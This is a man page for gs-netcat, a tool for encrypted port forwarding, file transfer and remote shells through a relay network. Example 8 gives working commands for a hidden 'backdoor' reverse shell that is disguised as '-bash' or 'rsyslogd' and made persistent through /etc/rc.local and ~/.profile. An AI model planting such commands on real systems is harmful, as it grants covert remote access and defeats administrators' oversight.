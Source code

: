 \# .TH gs-netcat 1 "08 October 2020" "1.0" "gs-netcat man page"
.Dd October 08, 2020
.Dt GS-NETCAT 1
.Os
.Sh NAME
.Nm gs-netcat
.Nd transfer data, forward traffic and execute commands on a remote host. Securely.
.Sh SYNOPSIS
.Nm gs-netcat
.Op Fl rlgvqwCTSDiu
.Op Fl s Ar secret
.Op Fl k Ar keyfile
.Op Fl L Ar logfile
.Op Fl d Ar IP
.Op Fl p Ar port
.Op Fl e Ar cmd
.Sh DESCRIPTION
The
.Nm
utility is a re-implementation of netcat. It allows two or more users to establish a secure TCP connection with each other in a scenario where all users are behind NAT/Firewall and would not be able to connect to each other directly. Typically a connection between one workstation and another workstation on a different Local Area Network.
.Pp
It uses the Global Socket Relay Network (GSRN) instead of direct TCP connections. Neither workstation needs to open a port in their firewall or accept incoming TCP connections.
.Pp
The connection is end-2-end encrypted using SRP (RFC 5054) with AES-256 and a 4096 Prime. The GSRN sees only the encrypted traffic. 
.Pp
Common uses include:
.Pp
.Bl -bullet -offset indent -compact
.It
simple TCP proxies
.It
PTY shell
.It
File transfer
.It
a SOCKS ProxyCommand for
.Xr ssh 1
.It
and much, much more.
.El
.Pp
.Sh OPTIONS
.Bl -tag -width Ds
.It Fl C
Disable encryption and use clear-text instead. Use with caution.
.It Fl d Ar ip
Destination IPv4 address for port forwarding.
.It Fl D
Daemon & Watchdog mode. Start
.Nm
as a background process and restart if killed.
.It Fl e Ar cmd
Execute command and send output to the connected client. Needs -l.
.It Fl g
Generate a secure random password and output it to standard output.
.It Fl i
Interactive login shell. The server spawns a true PTY login shell. The client acts as a true PTY client (with Ctrl-C etc working). The client can terminate the session by typing 'Ctrl-e q' at any time or by typing 'exit'. The server supports multiple clients at the same time.
.It Fl k Ar file
A file containing the password.
.It Fl l
Server/Listening mode. The default mode is client.
.It Fl L Ar file
Log file [default: standard out]
.It Fl p Ar port
Port to listen on or to forward traffic to [1-65535].
.It Fl q
Quiet mode. Do not output any warnings or errors.
.It Fl r
Receive-only. Do not send any data. Terminate when no more data is available for reading.
.It Fl s Ar secret
A password chosen by the user. Both users need to use the same password to connect.
.It Fl S
Act as a SOCKS4/4a/5 server. The server acts as a SOCKS4/4a/5 proxy. It allows multiple
.Nm
clients to (securely) relay traffic via the server. Needs -l.
.It Fl T
Use TOR. The
.Nm
tool will connect via TOR to the GSRN. This requires TOR to be installed and running. The IP and PORT of the TOR server can be set using environment variables.
.It Fl t
Connect to the GSRN (only) and check if the peer is listening. Do not connect the peer. 
.It Fl u
Use UDP instead of TCP for port forwarding. Needs -p. 
.It Fl v
Prints status messages. Use -vv to be more verbose and -vvv to be insanely verbose. 
.It Fl w
Client to wait for the listening server to become available.
.El
.Sh CONSOLE
The interactive login shell (
.Ar -i
) has a command console. Pressing 'Ctrl-e c' (e for EEEElite) opens the command console. The command console displays the following information:
.Pp
.Bl -bullet -offset indent -compact
.It
Latency (in milliseconds) to the remote host
.It
Warning when a user logs into the system or becomes active
.It
Data throughput
.It
File transfer logs
.El
Type 'help' for a list of available commands.
.Sh FILETRANSFER
File transfer is available from the command console. Files are transferred with the permission and modification timestamp unchanged. Partially transferred files are re-started where the transfer was left off.
The 'put' command is used for uploading:
.Dl put foobar.txt
.Dl put $HOME/foobar.txt
.Dl put /tmp/*.log
.Dl put $(find . -type f -name '*.c')
(The above example shows Shell Variable substitution and word expansion)
It is possible to limit the amount of path information that is sent as implied directories for each path you specify. You can insert a dot and a slash into the source path, like this:
.Dl put /foo/./bar/baz.c
That would create /tmp/bar/baz.c on the remote machine. 
The 'get' command is used for downloading:
.Dl get foobar.txt
.Dl get $(find /var/./ -name '*.log')
Transferring a directory automatically transfers all files and directories within that directory (recursively):
.Dl get /var/log
.Dl get /
The first command transfers all directories and files in /var/log/*. The latter command transfers the entire filesystem.
Multiple get/put commands can be scheduled at the same time.
.Sh EXAMPLES
.Nm Example 1
- Listen for a new connection using the password 'MySecret':
.Dl $ gs-netcat -s MySecret -l
.Pp
Connect with client using the same password:
.Dl $ gs-netcat -s MySecret
.Pp
.Nm Example 2
- spawn a PTY login shell when a client connects:
.Dl $ gs-netcat -s MySecret -l -i
.Pp
Log in to server's interactive shell:
.Dl $ gs-netcat -s MySecret -i
.Pp
Log in via TOR:
.Dl $ gs-netcat -s MySecret -i -T
.Pp
Log in via a Socks5 Proxy:
.Dl $ export GSOCKET_SOCKS_IP=127.0.0.1
.Dl $ export GSOCKET_SOCKS_PORT=1080
.Dl $ gs-netcat -s MySecret -i -T
.Pp
.Nm Example 3
- Execute a command when a client connects:
.Dl $ gs-netcat -s MySecret -l -e 'echo hello world; id; exit'
.Pp
Connect client to the server:
.Dl $ gs-netcat -s MySecret
.Pp
.Nm Example 4
- Pipe data from client to server:
.Dl $ gs-netcat -s MySecret -l -r >warez.tar.gz
.Pp
Client to read 'warez.tar.gz' and pipe it to the server.
.Dl $ gs-netcat -s MySecret <warez.tar.gz
.Pp
.Nm Example 5
- Server to act as a SOCKS4/4a/5 server:
.Dl $ gs-netcat -s MySecret -l -S
.Pp
Client to listen on TCP port 1080 and forward any new connection to the server's SOCKS server:
.Dl $ gs-netcat -s MySecret -p 1080
.Pp
.Nm Example 6
- TCP Port Forward all connections to 192.168.6.7:22. Server:
.Dl $ gs-netcat -s MySecret -l -d 192.168.6.7 -p 22
.Pp
Client to listen on TCP port 2222 and forward any new connection to the the server. The server then forwards the connection to 192.168.6.7:22.
.Dl $ gs-netcat -s MySecret -p 2222
.Dl $ ssh -p 2222 root@127.0.0.1
.Pp
The same using 1 command:
.Dl $ ssh -o ProxyCommand='gs-netcat -s MySecret' root@ignored
.Pp
.Nm Example 7
- Creating an SFTP server using gs-netcat:
.Dl $ gs-netcat -s MySecret -l -e /usr/lib/sftp-server
.Pp
The sftp-server binary speaks the sftp-protocol to stdin/stdout. The sftp binary also speaks sftp-protocol to stdin/stdout. The tool can be used to connect both via GSRN (encrypted) and access the SFTP server running on the server's side from the client via the GSRN (encrypted).:
.Dl $ export GSOCKET_ARGS='-s MySecret'
.Dl $ sftp -D gs-netcat
.Pp
.Nm Example 8
- Encrypted Reverse PTY shell hidden as '-bash' in the process list - also known as 'backdoor':
.Dl $ (GSOCKET_ARGS="-s MySecret -liqD" exec -a -bash gs-netcat)
.Pp
The following line in /etc/rc.local starts the backdoor after each system reboot:
.Dl GSOCKET_ARGS="-s MySecret -liqD" HOME=/root TERM=xterm-256color SHELL="/bin/bash" /bin/bash -c\ "cd $HOME; exec -a rsyslogd /usr/local/bin/gs-netcat"
.Pp
The following line in /etc/rc.local starts a port-forward to 127.0.0.1:22:
.Dl GSOCKET_ARGS="-k MySecret2 -lqD -d 127.1 -p22"  /bin/bash -c\ "exec -a rsyslogd /usr/local/bin/gs-netcat"
.Pp
The following line in the user's ~/.profile starts the backdoor (once) when the user logs in. All in one line:
.Dl killall -0 gs-netcat 2>/dev/null || (GSOCKET_ARGS="-s MySecret3 -liqD" SHELL=/bin/bash exec -a -bash /usr/local/bin/gs-netcat)
.Pp
The '(...)' brackets start a sub-shell which is then replaced (by exec) with the gs-netcat process. The process is hidden (as -bash) from the process list.
.Pp
Client to connect to the backdoor:
.Dl $ gs-netcat -s MySecret -i
.Sh ENVIRONMENT
The following environment variables can be set to control the behavior of
.Nm
.Pp
.Nm GSOCKET_SOCKS_IP
.Dl Specify the IP address of the TOR server (or any other SOCKS server). Use together with -T. Default is 127.0.0.1.
.Pp
.Nm GSOCKET_SOCKS_PORT
.Dl The port number of the TOR server (or any other SOCKS server). Use together with -T. Default is 9050.
.Pp
.Nm GSOCKET_ARGS
.Dl A string containing additional command line parameters. First the normal command line parameters are processed and then the command line parameters from GSOCKET_ARGS.
.Sh SECURITY
Passing the password as command line parameter is not secure. Consider using the -k option or GSOCKET_ARGS or enter the password when prompted:
.Pp
.Dl $ gs-netcat -k <file>
.Pp
.Dl $ export GSOCKET_ARGS="-s MySecret"
.Dl $ gs-netcat
.Pp
.Nm 1.
The security is end-2-end. This means from User-2-User (and not just to the GSRN). The GSRN relays only (encrypted) data to and from the users.
.Pp
.Nm 2.
The session is 256 bit and ephemeral. It is freshly generated for every session and generated randomly (and is not based on the password). It uses OpenSSL's SRP with AES-256 and a 4096 Prime.
.Pp
.Nm 3.
The password can be 'weak' without weakening the security of the session. A brute force attack against a weak password requires a new TCP connection for every guess.
.Pp
.Nm 4.
Do not use stupid passwords like 'password123'. Malice might pick the same (stupid) password by chance and connect. If in doubt use gs-netcat -g to generate a strong one. Alice's and Bob's password should at least be strong enough so that Malice can not guess it by chance while Alice is waiting for Bob to connect.
.Pp
.Nm 5.
If Alice shares the same password with Bob and Charlie and either one of them connects then Alice can not tell if it is Bob or Charlie who connected.
.Pp
.Nm 6.
Assume Alice shares the same password with Bob and Malice. When Alice stops listening for a connection then Malice could start to listen for the connection instead. Bob (when opening a new connection) can not tell if he is connecting to Alice or to Malice. Use -a <token> if you worry about this. TL;DR: When sharing the same password with a group larger than 2 then it is assumed that everyone in that group plays nicely. Otherwise use SSH over the GS/TLS connection.
.Pp
.Nm 7.
SRP has Perfect Forward Secrecy. This means that past sessions can not be decrypted even if the password becomes known.
.Sh NOTES
The latest version is available from https://github.com/hackerschoice/gsocket/.
.Sh SEE ALSO
.Xr gsocket(1) ,
.Xr gs-sftp(1) ,
.Xr gs-mount(1) ,
.Xr blitz(1) ,
.Xr nc(1) ,
.Xr socat(1)
.Sh BUGS
Efforts have been made to have
.Nm
"do the right thing" in all its various modes. If you believe that it is doing the wrong thing under whatever circumstances, please notify me (skyper@thc.org) and tell me how you think it should behave.
